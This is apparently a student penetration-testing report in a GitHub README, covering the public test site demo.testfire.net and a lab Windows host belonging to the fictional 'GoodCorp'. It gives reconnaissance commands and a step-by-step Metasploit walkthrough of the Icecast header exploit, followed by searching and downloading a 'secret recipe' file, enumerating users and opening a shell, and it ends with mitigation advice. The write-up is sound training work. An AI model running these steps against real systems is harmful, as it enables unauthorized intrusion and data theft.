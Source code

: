 # pen-testing-1
Identify any vulnerabilities associated with the public-facing web application for fictional corporation "Altoro Mutual" and perform security tests against workstation belonging to CEO of fictional company "GoodCorp Inc."

# Altoro Mutual

## Summary
Altoro Mutual, a banking service, is concerned about their online presence and security of website `demo.testfire.net` being compromised by malicious actors. This report outlines the non-invasive investigation of their online security through website enumeration, discovery, and vulnerability detection. 

## Google Dorking
Using Google and its built-in search criteria, any person with access can easily discover the name of the CEO of Altoro Mutual: *Karl Fitzgerald*. 

Search terms used:
`site:demo.testfire.net "Chief Executive Officer"`

Using the name of the CEO, an attacker can attempt brute force attacks to access the website and other systems belonging to Altoro Mutual by attempting login credentials.

They can also spoof an email using his name and a similar email address to those automatically generated for employees to perform a social engineering campaign on other employees, or to target the CEO directly using his name through legitimate-looking emails.

## DNS and Domain Discovery
Using Domain Dossier, one can discover various details about Altoro Mutual and its internal network attached to the domain `demo.testfire.com`.

**Company Location**
Sunnyvale, CA

**NetRange IP Address**
65.61.137.64 - 65.61.137.127

**Infrastructure Storage**
Rackspace Backbone Engineering

**DNS Server IP Address**
65.61.137.117

## Shodan

Using Shodan, the notable details are revealed to be:
* open ports: 80 (TCP), 443 (TCP)
* running services: Apache Tomcat/Coyote JSP engine 1.1

## Recon-ng

Using Recon-ng, it is discovered that `demo.testfire.net` is vulnerable to XSS.

1. Install the Recon module `xssed`
  * `marketplace install xssed`
2. Set the source to `demo.testfire.net`
  * `options set SOURCE demo.testfire.net`
3. Run the module 
  * `run`

## Zenmap

Altoro Mutual has specifically requested a scan of any potential vulnerabilities with their file-sharing server.

After using Zenmap, it is apparent that under TMP, any anonymous user is able to read or write files in the C:\tmp directory. This leaves integrity and confidentiality of any files in the temporary directory especially vulnerable to an attack.

This vulnerability can be mitigated by restricting anonymous editing on files in this directory (or any others) by setting the DWORD value 'RestrictAnonymous' to 1 in the correct directory. This can also be mitigated by blocking NetBIOS on the host's Windows server by preventing TCP ports 139 and 445 from passing through the firewall on the network.

**Discovery Steps**

Use Zenmap to run a service scan against client machine and output results into a new text file named `zenmapscan.txt`:
* `nmap -sV 192.168.0.10 -oN 'scan-%T-%D.txt'`

Use Zenmap to execute a vulnerable script:
* `nmap -T4 -A -v --script smb-enum-shares 192.168.0.10`

# GoodCorp, Inc.

## Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The goal of this test is to perform attacks similar to those of a hacker and attempt to infiltrate Hans’ computer to determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software, find a secret recipe file on Hans’ computer, and report the findings back to GoodCorp.

The internal penetration test found several alarming vulnerabilities on Hans’ computer: When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs with major vulnerabilities. The details of the attack are below.

## Findings

**Machine IP:**
192.168.0.20

**Hostname:**
MSEDGEWIN10

**Vulnerability Exploited:**
Icecast Header Overwrite

**Vulnerability Explanation:**
The Icecast Header Overwrite exploit exploits a buffer overflow in icecast’s header parsing. By sending 32 HTTP headers, the request writes one past the maximum pointer array, generally overwriting inconsequential files (readable not executable). Icecast thinks the thread is still in use through ExitThread, eventually maxing out the threadpool. ([Source](https://www.rapid7.com/db/modules/exploit/windows/http/icecast_header/))

**Severity:**
Because the vulnerability allows an attacker to execute arbitrary code on the victim’s host machine with Icecast server process privileges, this vulnerability should be classified as high severity.

## Proof of Concept

Perform a service and version scan using Nmap to determine which services are up and running.

`nmap -sV 192.168.0.20`

![Service and Version Scan](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/1.png)

Search for any Icecast exploits

`searchsploit icecast`

![Icecast search](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/2.png)

Start Metasploit to use the exploit

`msfconsole`

![Start Metasploit](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/3.png)

Search for the Icecast module and load it for use

`search icecast`

![Search Icecast Module](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/4.1.png)

`use exploit /windows/http/icecast_header`

![Start Icecast Module](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/4.2.png)

Set the RHOST to the target machine

`set RHOST 192.168.0.20`

![Set RHOST](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/5.png)

Run the Icecast exploit and find the secret file using it.

`run`

![Run Exploit](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/6.1.png)

`search -f *secretfile*`

![Search for secret file](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/6.2.png)

Search for the recipe file and exfiltrate it.

`search -f *recipe*`

![Search for recipe file](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/7.1.png)

`download 'C:\Users\IEUser\Documents\Drinks.recipe.txt'`

![Exfiltrate recipe file](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/7.2.png)

Enumerate all logged-in users on the remote host.

`run post/windows/gather/enum_logged_on_users`

![Enumerate users](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/A.png)

Open a Meterpreter shell and gather system information for the target.

`shell`

![Open shell](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/B.png)

`sysinfo`

![Gather system information](https://github.com/francescatirpak/pen-testing-ft/blob/main/Images/C.png)

## Recommendations

The Icecast vulnerability is caused by the software being out of date, so updating to version 2.0.2 or later should resolve the issue. 

To further harden the system against future exploits of similar variety, it is recommended to close all ports that do not need to be open, encrypt all files that should be confidential, and enable firewall rules to explicitly and exclusively allow traffic on needed ports.
